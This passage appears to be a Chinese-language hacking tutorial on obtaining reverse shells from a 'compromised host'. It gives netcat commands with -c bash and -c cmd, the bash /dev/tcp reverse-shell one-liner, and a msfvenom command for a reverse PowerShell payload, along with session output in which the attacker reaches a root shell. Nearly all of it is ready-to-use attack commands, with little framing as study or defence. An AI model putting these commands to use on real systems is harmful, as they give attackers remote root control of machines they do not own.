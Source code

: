 **-c 指定反弹 shell**

```
# 失陷主机
nc -lvp lprot -c bash	# linux 主机
nc -lvp lport -c cmd 	# windows 主机

# 控制端
nc rhost rport
```

```
# 失陷主机
> nc -lvp 4444 -c bash
listening on [any] 4444 ...
172.16.214.1: inverse host lookup failed: Unknown host
connect to [172.16.214.43] from (UNKNOWN) [172.16.214.1] 60635

# 控制端
> nc -v 172.16.214.43 4444
Connection to 172.16.214.43 port 4444 [tcp/krb524] succeeded!
whoami
root
```

**结合其他语言进行反弹 shell**

```
# 失陷主机
bash -i >& /dev/tcp/rhost/rport 0>&1

# 控制端
nc -lvp lprot
```

```
# 失陷主机
> bash -i >& /dev/tcp/172.16.214.43/4444 0>&1

# 控制端
> nc -lp 4444
root@ubuntu:~# whoami
whoami
root
```

除了 bash 也可以使用其他的语言进行反弹 shell，这里可以使用 msfvenom 生成反弹 shell，操作起来比较方便，使用 `msfvenom -l payload | grep "cmd/"`可查看可使用的 payload

比如使用 `cmd/windows/reverse_powershell` 这个 payload

```
# 控制端
> msfvenom -p cmd/windows/reverse_powershell lhost=172.16.214.43 lport=4444
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 1586 bytes
```